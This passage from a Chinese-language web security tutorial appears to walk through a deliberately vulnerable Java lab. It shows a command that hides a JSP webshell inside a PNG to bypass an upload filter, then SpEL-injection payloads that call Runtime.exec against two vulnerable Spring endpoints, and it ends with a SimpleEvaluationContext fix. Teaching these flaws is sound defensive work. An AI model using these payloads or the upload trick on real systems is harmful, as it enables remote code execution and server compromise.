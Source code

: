 判断为图片才允许上传，不过仍可通过其他方式绕过

```
copy 1.png/shell.jsp muma.png
```

### SpEL表达式注入漏洞

Spring表达式语言（简称 **SpEL**，全称**Spring Expression Language**）是一种功能强大的表达式语言，支持在运行时查询和操作对象图。它语法类似于OGNL，MVEL和JBoss EL，在方法调用和基本的字符串模板提供了极大地便利，也开发减轻了Java代码量。另外 , SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

spel语法中的`T()`操作符 , `T()`操作符会返回一个object , 它可以帮助我们获取某个类的静态方法 , 用法`T(全限定类名).方法名()`

#### 1./spel/vuln1

```
   @RequestMapping("/spel/vuln1")
    public String spel_vuln1(String value) {
        ExpressionParser parser = new SpelExpressionParser();
        return parser.parseExpression(value).getValue().toString();
    }

```

可以通过spel表达式实现命令执行

```
T(java.lang.Runtime).getRuntime().exec("calc")
```

#### 2./spel/vuln2

```
@RequestMapping("spel/vuln2")
    public String spel_vuln2(String value) {
        StandardEvaluationContext context = new StandardEvaluationContext();
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(value, new TemplateParserContext());
        Object x = expression.getValue(context);    // trigger vulnerability point
        return x.toString();   // response
    }
```

比第一关多了一个模板引擎，用#{}套上就好了

```
 #{T(java.lang.Runtime).getRuntime().exec('calc')}

```

#### 漏洞修复

修复代码：

```
  @RequestMapping("spel/sec")
    public String spel_sec(String value) {
        SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
        SpelExpressionParser parser = new SpelExpressionParser();
        Expression expression = parser.parseExpression(value, new TemplateParserContext());
        Object x = expression.getValue(context);
        return x.toString();
    }

```

使用 SimpleEvaluationContext进行加固，定义一个只读的上下文环境防止不安全的操作
